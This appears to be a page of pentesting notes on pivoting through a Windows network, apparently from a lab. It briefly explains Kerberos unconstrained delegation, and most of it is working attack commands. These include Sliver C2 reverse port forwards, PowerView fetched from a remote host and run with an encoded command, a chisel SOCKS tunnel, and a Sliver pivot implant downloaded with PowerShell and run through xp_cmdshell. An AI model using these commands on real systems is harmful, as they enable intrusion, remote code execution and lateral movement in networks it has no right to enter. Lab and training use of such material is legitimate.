 # Pivot

### <mark style="color:yellow;">Kerberos Delegations</mark>

In case of need to bypass network restrictions we can add a reverse portforward.

```sh
rportfwd add -b 8080 -r 127.0.0.1:8080
```

<details>

<summary>Double Hop problem</summary>

Double Hop problem. The double-hop problem in authentication occurs when a user accesses a front-end service (like IIS) that needs to authenticate to a back-end service (like MSSQL) on behalf of the user.\\

Unconstrained delegation allows the front-end service (IIS) to act as the user for any service on the network. Here’s how it works:

1. **TGT Inclusion**: When the user authenticates to the IIS server, the KDC includes the user's TGT in the service ticket issued to the IIS server.
2. **TGT Caching**: The IIS server extracts and caches the user's TGT in memory.
3. **Impersonation**: With the cached TGT, the IIS server can request tickets to access other services (like MSSQL) on behalf of the user without needing the user's credentials again

</details>

Then run Powerview to enum for unconstrained delegations

```sh
sharpsh -- '-u http://172.16.1.11:8080/PowerView.ps1 -e -c R2V0LU5ldENvbXB1dGVyIC1VbmNvbnN0cmFpbmVkCg=='
```

### <mark style="color:yellow;">Setting up chisel</mark>

Have a valid sessions running on sliver. The use the id from there to connect the ./sliver-client. For sliver client to run create a new operator in sliver `new-operator -n mczen -l 10.10.14.120`.

```sh
cd ~/sliver
sudo apt install mingw-w64
git clone https://github.com/MrAle98/chisel
cd chisel/
mkdir ~/.sliver-client/extensions/chisel
cp extension.json ~/.sliver-client/extensions/chisel/
make windowsdll_64
make windowsdll_32
```

The start chisel server

<pre class="language-shell"><code class="lang-shell"># Set proxychains4.conf
sudo sh -c 'sed -i s/socks4/socks5/g /etc/proxychains4.conf &#x26;&#x26; sed -i s/9050/1080/g /etc/proxychains4.conf'

<strong># Start server
</strong>chisel server --reverse -v --socks5
</code></pre>

In ./chisel-client

```sh
# First make new profile
new-operator -n zen -l 10.10.14.133

# Import profile
./sliver-client_linux import /home/kali/sliver/mczen_10.10.14.120.cfg

# Use ID
use [ID of web01 session]

# Start chisel client from sliver-client
chisel client 10.10.14.120:8080 R:socks
```

### <mark style="color:yellow;">Add reverse port forward</mark>

```sh
rportfwd add -b 8080 -r 127.0.0.1:8080
```

Then create a pivot listener

```sh
# Start tcp
pivots tcp

# Generate and run tcp.exe on target
generate --tcp-pivot 172.16.84.20:9898 --skip-symbols -N tcp

# HTTP server
python3 -m http.server 5000

# Connect
powershell iwr -uri http://172.16.84.20:5000/tcp.exe -Outfile C:\Temp\tcp.exe

# Run .exe 
xp_cmdshell C:\Temp\tcp.exe 
```
